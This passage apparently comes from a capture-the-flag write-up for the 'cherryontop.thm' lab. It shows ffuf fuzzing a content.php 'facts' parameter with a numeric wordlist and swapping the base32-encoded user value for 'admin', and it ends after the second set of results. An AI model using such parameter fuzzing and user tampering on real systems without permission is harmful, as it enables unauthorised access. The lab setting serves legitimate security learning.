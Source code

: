 First we create a wordlist of numbers.

```bash
seq 0 1000 > nums.txt
```

Now let's fuzz using `ffuf`.

```terminal
$ ffuf -c -w ./nums.txt -u 'http://cherryontop.thm/content.php?facts=FUZZ&user=I52WK43U' -fr 'Error'                                                                                  
                                               
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/       
                                                                                               
       v2.1.0-dev                              
________________________________________________                                               
                                                                                               
 :: Method           : GET                                                                     
 :: URL              : http://cherryontop.thm/content.php?facts=FUZZ&user=I52WK43U                                                                                                            
 :: Wordlist         : FUZZ: /home/sirius/ctf/thm/cherry/nums.txt                              
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10                                                                      
 :: Threads          : 40           
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Error           
________________________________________________                                         
                                                                                               
4                       [Status: 200, Size: 2523, Words: 761, Lines: 63, Duration: 123ms]
2                       [Status: 200, Size: 2519, Words: 762, Lines: 63, Duration: 126ms]
3                       [Status: 200, Size: 2514, Words: 762, Lines: 63, Duration: 128ms]
43                      [Status: 200, Size: 2498, Words: 759, Lines: 63, Duration: 198ms]
50                      [Status: 200, Size: 2487, Words: 757, Lines: 63, Duration: 90ms]  
64                      [Status: 200, Size: 2486, Words: 757, Lines: 63, Duration: 91ms]  
1                       [Status: 200, Size: 2499, Words: 759, Lines: 63, Duration: 933ms]      
20                      [Status: 200, Size: 2479, Words: 755, Lines: 63, Duration: 4931ms]
```

We found more numbers but they don't give us anything useful. Let's try changing the user to `admin`.

```terminal
$ ffuf -c -w ./nums.txt -u 'http://cherryontop.thm/content.php?facts=FUZZ&user=MFSG22LO' -fr 'Error'
                                                                                               
[...]
                                               
2                       [Status: 200, Size: 2519, Words: 762, Lines: 63, Duration: 119ms]
3                       [Status: 200, Size: 2514, Words: 762, Lines: 63, Duration: 131ms]      
1                       [Status: 200, Size: 2499, Words: 759, Lines: 63, Duration: 132ms]
43                      [Status: 200, Size: 2498, Words: 759, Lines: 63, Duration: 224ms]
50                      [Status: 200, Size: 2487, Words: 757, Lines: 63, Duration: 96ms] 
64                      [Status: 200, Size: 2486, Words: 757, Lines: 63, Duration: 96ms] 
4                       [Status: 200, Size: 2523, Words: 761, Lines: 63, Duration: 1256ms]
20                      [Status: 200, Size: 2479, Words: 755, Lines: 63, Duration: 3253ms]
```
